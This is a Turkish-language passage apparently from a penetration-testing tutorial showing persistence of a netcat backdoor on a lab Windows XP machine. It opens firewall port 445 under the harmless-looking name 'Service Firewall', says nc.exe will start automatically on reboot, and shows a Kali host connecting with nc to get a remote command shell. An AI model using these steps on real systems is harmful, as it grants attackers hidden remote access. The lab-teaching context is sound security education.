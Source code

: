 

Şimdi 445 numaralı Portu izin verilen Portlar arasına ekleyelim.


```bash
C:\ **&gt;** netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL
Ok.
```



Yaptığımız işlemin hayata geçip geçmediğini kontrol edelim.


```bash
C:\ **&gt;** netsh firewall show portopening
netsh firewall show portopening

Port configuration **for **Domain profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service

Port configuration **for **Standard profile:
Port   Protocol  Mode     Name
-------------------------------------------------------------------
445    TCP       Enable   Service Firewall
139    TCP       Enable   NetBIOS Session Service
445    TCP       Enable   SMB over TCP
137    UDP       Enable   NetBIOS Name Service
138    UDP       Enable   NetBIOS Datagram Service


C:\ **&gt;**
```



Hedef sistem tekrar başladığında `nc.exe` otomatik olarak çalışacak ve dışarıdan bağlantılara imkan sağlayacaktır. Aşağıdaki örnekte `nc` komutuyla hedef sisteme bağlanılabildiği görülmektedir.


```bash
root@kali:~# nc -v 172.16.104.128 445
172.16.104.128: inverse host lookup failed: Unknown server error : Connection timed out
**(**UNKNOWN**)** **[**172.16.104.128] 445 **(**?**)** open
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\ **&gt;** dir
dir
Volume **in **drive C has no label.
Volume Serial Number is E423-E726

Directory of C:\

05/03/2009 01:43 AM
.
05/03/2009 01:43 AM
..
05/03/2009 01:26 AM 0 ;i
05/12/2009 10:53 PM
Desktop
10/29/2008 05:55 PM
Favorites
05/12/2009 10:53 PM
```